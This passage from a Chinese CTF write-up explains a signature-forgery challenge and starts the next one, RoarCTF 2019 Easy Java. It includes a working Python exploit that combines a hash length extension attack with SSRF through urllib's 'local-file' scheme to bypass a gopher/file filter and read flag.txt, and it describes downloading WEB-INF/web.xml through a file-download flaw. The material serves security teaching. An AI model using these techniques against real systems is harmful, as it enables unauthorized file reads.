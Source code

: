 ```python
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0')
```

两种操作：`scan` 写入 `result.txt`，`read` 读文件。生成签名时将 `secret_key` 放在最前面，因此可以通过哈希长度扩展攻击在末尾添加一个 `read` 操作。这样就可以先把 `flag.txt` 写入 `result.txt` 再读出来。

为了读到 `flag.txt`，很容易想到 `file` 协议，但是在 `waf` 中过滤了 `file` 和 `gopher` 协议。这里可以利用 `urllib` 库中的特殊协议 `local-file` 来读文件，造成 SSRF。

```py
import requests
import urllib
import hashpumpy

base = 'http://0230c9c3-8270-4e74-9786-e6ab55d01eeb.node3.buuoj.cn/'
url = 'local-file:flag.txt'
r = requests.get(base +'geneSign?param='+ url)
print(r.text)
hashcode = hashpumpy.hashpump(r.text, url+'scan','read', 16)
print(hashcode)

cookies = {
    'sign': hashcode[0],
    'action': urllib.parse.quote(hashcode[1][len(url):])
}
r = requests.get(base +'De1ta?param='+url, cookies=cookies)
print(r.text)
```

## [RoarCTF 2019]Easy Java

容易发现任意文件下载漏洞，我们可以下载 `WEB-INF/web.xml`，注意必须通过 POST 方式。可以发现存在 `FlagController`，然后去下载 `FlagController`：
